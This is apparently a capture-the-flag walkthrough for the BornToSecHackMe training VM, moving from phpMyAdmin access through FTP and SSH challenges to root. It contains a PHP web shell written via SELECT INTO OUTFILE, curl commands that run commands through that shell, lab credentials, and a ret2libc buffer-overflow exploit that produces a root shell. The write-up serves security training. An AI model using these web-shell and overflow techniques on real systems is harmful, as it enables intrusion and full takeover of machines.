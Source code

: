 ## phpmyadmin

Login with `root/Fg-'kKXBj87E:aJ$`

```
SELECT "<?php if(isset($_GET['cmd'])){system($_GET['cmd']);}?>" INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```
We injected our shell into a file `shell.php` under directory `/var/www/forum/templates_c` which we have write permission.

```
$ curl -k 'https://$VMIP/forum/templates_c/shell.php?cmd=whoami'
www-data
$ curl -k 'https://$VMIP/forum/templates_c/shell.php?cmd=find+/home+-user+www-data'
/home
/home/LOOKATME
/home/LOOKATME/password
$ curl -k 'https://$VMIP/forum/templates_c/shell.php?cmd=cat+/home/LOOKATME/password'
lmezard:G!@M6f4Eatau{sF"
```

## FTP
Login with `lmezard:G!@M6f4Eatau{sF"`

```
$ ftp lmezard@$VMIP
Connected to 192.168.57.2.
220 Welcome on this server
331 Please specify the password.
Password:
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.

$ cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

```
$ file fun
fun: POSIX tar archive (GNU)
$ tar -xf fun
```

```
$ printf 'Iheartpwnage' | shasum -a 256
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  -
```

## ssh laurie
Login with `laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`.
```
laurie@BornToSecHackMe:~$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

```
laurie@BornToSecHackMe:~$ ./bomb
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Public speaking is very easy.
Phase 1 defused. How about the next one?
1 2 6 24 120 720
That's number 2.  Keep going!
1 b 214
Halfway there!
9
So you got that one.  Try this one.
opekmq
Good work!  On to the next...
4 2 6 3 1 5
Congratulations! You've defused the bomb!
```
Now we have the password for thor `Publicspeakingisveryeasy.126241207201b2149opekmq426315`. According to a Slack thread, these is an error in the ISO file, the real password is `Publicspeakingisveryeasy.126241207201b2149opekmq426135`.

## ssh thor
Login with `thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135`
```
thor@BornToSecHackMe:~$ cat README
Finish this challenge and use the result as password for 'zaz' user.
```

The filename itself is a hint. We need to play with a Python lib called [turtle](https://docs.python.org/3/library/turtle.html).

## ssh zaz

Login with `zaz:646da671ca01bb5d84dbb5fb2238dc8e`.

```
zaz@BornToSecHackMe:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble main" exploit_me
   0x0804841d <+41>:	mov    DWORD PTR [esp],eax
=> 0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    eax,[esp+0x10]
```
`exploit_me` calls `strcpy` function to copy our input `argv[1]` directly into a buffer without checking its size. We can simply overwrite `eip`.


```
zaz@BornToSecHackMe:~$ gdb -q exploit_me
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) break *0x08048420
Breakpoint 1 at 0x8048420
(gdb) run 42
Starting program: /home/zaz/exploit_me 42

Breakpoint 1, 0x08048420 in main ()
(gdb) info registers eax
eax            0xbffff6d0	-1073744176
(gdb) info frame
Stack level 0, frame at 0xbffff760:
 eip = 0x8048420 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff758, args:
 Locals at 0xbffff758, Previous frame's sp is 0xbffff760
 Saved registers:
  ebp at 0xbffff758, eip at 0xbffff75c
(gdb) print 0xbffff75c - 0xbffff6d0
$1 = 140
```
We got offset 140 by calculate `eip - eax`.

```
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
```
We found all the information to do a `ret2libc` attack.

```
zaz@BornToSecHackMe:~$ ./exploit_me `perl -e 'print "A"x140 . pack("V", 0xb7e6b060) . pack("V", 0xb7e5ebe0) . pack("V", 0xb7f8cc58)'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�����X��
# whoami
root
```
